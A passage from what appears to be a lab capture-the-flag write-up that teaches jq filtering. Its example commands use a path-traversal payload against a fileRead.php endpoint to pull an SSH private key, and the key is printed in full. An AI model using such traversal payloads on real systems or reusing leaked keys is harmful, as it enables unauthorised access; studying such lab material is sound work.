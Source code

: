 

### jq Clean Up

So, what comes back is json. It's an object, with one string/value pair.

If you ever just want to pretty print some json data, you can simply
pipe it into `jq .`. That's the simplest form for `jq`, where it's
literally just printing back the entire object. But looks what comes
out:

![](/img/1544839901373.png)

When I find myself with a large, json blob of unknown structure, the
first thing I'll do is `| jq . | less` and see what it looks like.

Next, I really just want the value of the file key. If the `.` refers to
the top object, `.file` selects the file object:



    root@kali# curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php | jq .file
    "-----BEGIN RSA PRIVATE KEY-----\nMIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl\nmR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f\n87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS\ndGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN\no8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V\nvi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU\nvmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6\npKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5\n8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q\n1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7\nVxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS\ndVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO\nv0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr\nxsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY\nqFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI\nyzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1\n/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU\nLRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/\nlnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp\nw7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9\n1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT\nrj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr\nX/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2\nDvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla\nW0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=\n-----END RSA PRIVATE KEY-----\n"



### -r

That result still has all `\n` and other escaped characters. That's
where the `-r` parameter comes in.

> With this option, if the filter's result is a string then it will be
> written directly to standard output rather than being formatted as a
> JSON string with quotes. This can be useful for making jq filters talk
> to non-JSON-based systems.



    root@kali# curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php | jq -r .file
    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
    mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
    87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
    dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
    o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
    vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
    vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
    pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
    8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
    1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
    VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS